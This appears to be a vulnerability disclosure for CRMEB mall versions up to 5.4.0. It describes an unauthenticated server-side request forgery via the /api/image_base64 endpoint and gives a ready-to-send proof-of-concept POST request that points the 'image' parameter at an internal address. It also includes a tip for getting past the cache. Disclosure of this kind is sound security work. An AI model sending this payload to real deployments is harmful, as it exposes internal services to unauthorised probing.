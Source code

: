 BUG_Author:
Rui Jie

Affected version:
CRMEB open source mall system
Version<=5.4.0

Vendor:
https://www.crmeb.com/

Software:

https://gitee.com/ZhongBangKeJi/CRMEB

https://github.com/crmeb/CRMEB


Vulnerability File:
app/api/controller/v1/PublicController.php
app/common.php

Description:

A vulnerability classified as Server-Side Request Forgery has been identified in CRMEB. This affects sections of the app/api/controller/v1/PublicController.php file. Manipulation of the parameter image/code leads to Server-Side Request Forgery
It's an unauthorised interface, and doesn't even require any users.
A server-side request can be forged by anyone by visiting /api/image_base64 and passing the parameter image/code 


Pass json data
`{"image": "http://127.0.0.1:67?1=xxx", "code":""}`
Even if here on the incoming imageurl/codeurl judgement, but here there is a logical problem, through the `&&` connection of the conditional judgement, even if there is no picture suffix, will not meet the conditions, but also will continue to perform subsequent functions to image_to_base64 to achieve the SSRF attack

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121447950.png)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121451269.png)
POC:
```
POST /api/image_base64 HTTP/1.1
Host: 127.0.0.21
Cookie: cb_lang=zh-cn; PHPSESSID=c3db7bedde04b37c0bc6a5699dbde774
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Referer: http://crmeb.cc//api/image_base64
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: max-age=0
Content-Length: 53

{"image":"http://127.0.0.1:67?1=1222ss1231","code":""}
```
Trigger curl here(app/common.php)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121444887.png)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121446514.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121446706.png)

However, it should be noted that it uses the CacheService::remember method to try to get the Base64 encoding of the $imageUrl from the cache, which should be changed after the first execution `http://127.0.0.1:67/?1=change me`.
